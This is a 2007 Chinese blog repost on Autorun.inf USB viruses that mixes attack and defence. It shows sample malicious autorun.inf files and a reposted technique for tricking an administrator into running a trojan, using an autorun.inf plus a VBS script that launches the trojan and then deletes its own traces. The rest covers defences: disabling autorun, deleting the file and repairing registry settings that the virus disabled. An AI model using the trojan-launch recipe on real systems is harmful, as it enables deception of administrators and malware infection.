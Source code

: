 ```yaml
---
title: 病毒的Autoruninf新写法与应用以及防御
description: 首先是Autoruninf一般的病毒的Autoruninf文件内容为[autorun]open=.RECYCLERRECYCLERautorun.exeshell1=Openshell1Command=.RECYCLERRECYCLERautorun.exeshell2=Browsershell2Command=.RECYCLERRECYCLERautorun.exeshellexecute=.RECYCLERRECYCLERautorun.exe........................
date: 2007-09-08 12:15:05
category: 技术文章
tags: ['技术类', '安全', '病毒Virus', 'Autoruninf']
post_id: 155
alias: VirusAutorunInf
ViewNums: 6328
---
```


在[zj1244小葵&职业欠钱的blog](http://xdxf.cn/)上看到的，感觉不错，转之~

首先是Autoruninf
一般的病毒的Autoruninf文件内容为
[autorun]
open=.RECYCLERRECYCLERautorun.exe
shell1=Open
shell1Command=.RECYCLERRECYCLERautorun.exe
shell2=Browser
shell2Command=.RECYCLERRECYCLERautorun.exe

shellexecute=.RECYCLERRECYCLERautorun.exe
它的效果是当双击打开盘时.会运行RECYCLERRECYCLERautorun.exe文件,用右键打开,会显示Open,Browser.
还有一种是
[autorun]
OPEN=SVCH0ST.EXE
shellopen=打开(&O)
shellopenCommand=SVCH0ST.EXE
shellopenDefault=1
shellexplore=资源管理器(&X)
shellexploreCommand=SVCH0ST.EXE
对于这种U盘病毒，无论右键选择“打开”还是“资源管理器”病毒都会运行。
一种利用Autoruninf提权的方法（转）
以前看过很多关于Autoruninf的利用文章,网上全是千篇一律,互相模仿.我再来添点东西吧~

还是先简单说下原理吧.写一个Autoruninf文件,放在对方某一盘符下,当管理员双击此盘时,就会执行Autoruninf指定的文件了.一般用在入侵时没有运行权限时,欺骗管理员帮你运行..

以前我在网上看到的都是一个模式

[AutoRun]

open = 你想运行的程序

先不说这样运行是不是成功的,稍微想一下,就知道有问题,人家管理员不是傻子,这样双击是打不开盘符的,人家肯定知道出问题了,所以你玩不长的..

事实上那个文件在我机子是运行不起的,网上也没找到解决办法,相信还有很多人和我遇到过同样的问题,求人不如求已,自己搞定吧.

也不难,只要这样写就OK了:

[AutoRun]
open=AutoRun.exe
shellexecute=AutoRun.exe
shellAutocommand=AutoRun.exe

这样,你把它保存为一个.inf文件,放在C盘下,AutoRun.exe为你指定的运行程序.这样双击C盘就可以成功运行了.前面还说过一个问题,就是C盘打不开,很容易就被管理员发现了,有待改进.下来就说怎么解决这个问题,GO ON!

其实这个实现起来也不难,先把Autoruninf上传至对方C盘,我们可以做一个自解压包,也放在C盘根目录下,让他成为我们的指定运行文件,里面包含我们要运行的程序,比如木马,还一个VBS脚本,自解压包执行后先让他执行VBS脚本,内容如下:

set yu=wscript.createobject("wscript.shell")
yu.run "cmd /c start WINLOG0N.exe",0
yu.run "cmd /c del Autoruninf",0
yu.run "cmd /c start c:",0
yu.run "cmd /c del AutoRun.vbs",0

我再简单解释下,解压后VBS帮我们运行winlogon.exe(我配置好的木马),然后删掉Autoruninf,为什么要删掉它,第一,减少被发 现的机会,二,删掉它,管理员重启机子或注销后如果右键点击盘复符不会出现"播放",一切恢复中马前的状态,当然之前我们的木马已经运行了.第四行代码: 我们为他打开C盘,最后再删掉vbs脚本自身.

这样改进后个人觉得安全性大大提高了.呵呵..各位在测试的时候只须把上面脚本中的 WINLOG0N.exe改为自己的木马就可以了.winxp sp2下测试成功。
防治方法
其实这个文件不是病毒。也是用来打开病毒了。防治它的思路有两种：一是禁用自动播放，二是删除它，三是阻止它生成。
1。在Windows系统有允许和阻止自动运行的键值的方法：

　　 在注册表中找到如下键：

键路径：[HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionPoliciesExploer]

在右侧窗格中有 "NoDriveTypeAutoRun"这个键决定了是否执行Autorun功能.其中每一位代表一个设备,不同设备用以下数值表示:

设备名称 第几位 值 设备用如下数值表示 设备名称含义
DRIVE_UNKNOWN 0 1 01h 不能识别的类型设备
DRIVE_NO_ROOT_DIR 1 0 02h 没有根目录的驱动器
DRIVE_REMOVABLE 2 1 04h 可移动驱动器
DRIVE_FIXED 3 0 08h 固定的驱动器
DRIVE_REMOTE 4 1 10h 网络驱动器
DRIVE_CDROM 5 0 20h 光驱
DRIVE_RAMDISK 6 0 40h RAM磁盘

其中： 保留 7 1 80h 　未指定的驱动器类型

以上值"0"表示设备运行，"1"表示设备不运行。
从上面可以看出，对应的DRIVE_NO_ROOT_DIR、DRIVE_FIXED、DRIVE_CDROM、DRIVE_RAMDISK是可以自动运 行的。所以要禁止硬盘自动运行Autoruninf文件，就必须将DRIVE_FIXED这些键的值设为1，由于DRIVE_FIXED代表固定的驱动 器(即硬盘)。如果仅想禁止软件光盘的AutoRun功能，但又保留对CD音频碟的自动播放能力，这时只需将“NoDriveTypeAutoRun”的 键值改为：BD,00,00,00即可。
     还有就是通过组策略关闭自动播放，但是在有些版本window xp 中不存在哪个策略。
2。为了防止Autoruninf的生成，我们可以在u盘根目录下创建一个名字是Autoruninf的文件夹。
3。我们可以选择在dos下删除文件，但是在通常情况下Autoruninf有系统，隐藏，只读属性。所以应该先去掉这些属性之后再删除文件。具体方法如下：
开始---运行---cmd（打开命令提示符）
D: dir /a a* （没有参数A是看不到的，A是显示所有的意思）
此时你会发现一个Autoruninf文件，
attrib Autoruninf -s -h -r 去掉Autoruninf文件的系统、只读、隐藏属性。然后就可以删除了
del Autoruninf
二.常见的病毒
通过autorun文件可以打开任何文件，所以很难讲什么是常见的。我所觉得有趣的是，运行病毒之后，病毒的自我保护方法。比如说存在保护程序，禁用注册表，禁用显示隐藏文件选项或文件夹选项。隐藏进程等等。
1。注册表的禁用与解用。

最好的方法是下载个注册表修复工具
你先到这里看看瑞星的注册表修复工具<http://it.rising.com.cn/service/technology/RegClean_download.htm>
如果仍然不能解决请按1楼的方法试试
假如"运行"被禁止掉那么请用下面介绍的方法

注册表编辑器已被禁用，我们用INF文件来解除。那么我们可以在记事本里写入下面的内容：
[Version]
Signature="$Windows NT$"

[DefaultInstall]
ADDREG=Myadd

[Myadd]
;解禁注册表编辑器
HKCU,SoftwareMicrosoftWindowsCurrentVersionPoliciesSystem,DisableRegistryTools,1,0

然后把文件另存为一个INF文件，右击文件----点“安装”就可以啦^O^
我们可以看到第一个语段，在Signature后面的签名"$Windows NT$"它是指明我的操作系统是NT的，如果你的操作系统是98的在后面的签名中应该写"$CHICAGO$"。
再看第二个语段，等号左边的“ADDREG”是不能更改的，等号右边的内容就随你的心情啦，但是有一点要注意，就是要与在第三个语段中使用的语句保持一致。另外还有一项操作是“DELREG”(删除键)和“ADDREG”的用法一样，后面介绍。
好了，这回各位看观是不是想要跃跃欲试了呢，不要着急，好像还有一点和REG文件不一样噢，呵呵我看出来了，就是在文件的最后，怎么有“，”(注：逗号)。还有“HKCU”这些都是什么呀？
这就是与REG文件不一样的格式啦。
“HKCU”指的是注册表中的根键，其中“HKCU”是“HKEY_CURRENT_USER”的缩写，其它的还有“HKCR”--- “HKEY_CLASSES_ROOT”、“HKLM”----“HKEY_LOCAL_MACHINE”、“HKU”---- “HKEY_USERS”、“HKCC”----“HKEY_CURRENT_CONFIG”、“HKDD”----“HKEY_DYN_DATA”。如 果你想要对哪个根键操作那么就可以按照上面的缩写对号入座了。
“，”(注：逗号)，它是根键与子键、子键与键名、键名与键类型、键类型与键值的分割符。
在具体修改注册表键值语段的格式为：根键，子键，键名，键类型，键值(注：中间的逗号不能省略)。
上面这个文件中我们知道其实要修改的是DisableRegistryTools键，把它的值改为“0”。它的类型为DWORD(双字节)，在INF文件 有关注册表的操作中有字符串类型(用“0”表示)和二进制类型(用“1”表示)，在网上没有找到INF文件表示双字节类型的资料，望知道的人补充。在这里 我们直接用二进制类型就可以了，所以大家看到在键类型的位置上是个“1”，最后是要修改的键值“0”。
前面提到“DELREG”它是删除键值的操作，如果要想把DisableRegistryTools键删除的话可以这样写：
[Version]
Signature="$Windows NT$"

[DefaultInstall]
DELREG=Mydel

[Mydel]
;删除DisableRegistryTools键
HKCU,SoftwareMicrosoftWindowsCurrentVersionPoliciesSystem,DisableRegistryTools

就是省略掉键类型和键值字段，最后把这个文件另存为一个INF文件，右击文件----点“安装”就可以了。
好了，不知道各位看观是不是看明白了，没看明白也没关系，我写了一个，大家只要把下面的内容复制到记事本中，然后把这个文件另存为一个INF文件，最后右 击文件----点“安装”就可以了。(注：这个文件可以解决前文中所提到问题，只能在NT系统中使用，主页会被改成20CN的首页，嘻嘻做个广告啦 ^O^)。

-----------------------------------------------------------------------------------
[Version]
Signature="$Windows NT$"

[DefaultInstall]
ADDREG=Myadd

[Myadd]
;解禁注册表编辑器
HKCU,SoftwareMicrosoftWindowsCurrentVersionPoliciesSystem,DisableRegistryTools,1,0
2。显示出被隐藏的系统文件

运行——regedit

HKEY_LOCAL_MACHINESoftwareMicrosoftwindowsCurrentVersionexplorerAdvancedFolderHiddenSHOWALL，将CheckedValue键值修改为1

这里要注意，病毒会把本来有效的DWORD值CheckedValue删除掉，新建了一个无效的字符串值CheckedValue，并且把键值改为0！我 们将这个改为1是毫无作用的。（有部分病毒变种会直接把这个CheckedValue给删掉，只需和下面一样，自己再重新建一个就可以了）

方法：删除此CheckedValue键值，单击右键 新建——Dword值——命名为CheckedValue，然后修改它的键值为1，这样就可以选择“显示所有隐藏文件”和“显示系统文件”。

在文件夹——工具——文件夹选项中将系统文件和隐藏文件设置为显示。

更多请参见：[**Autoruninf**完全操作手册](/blog/autoruninf-handbook)

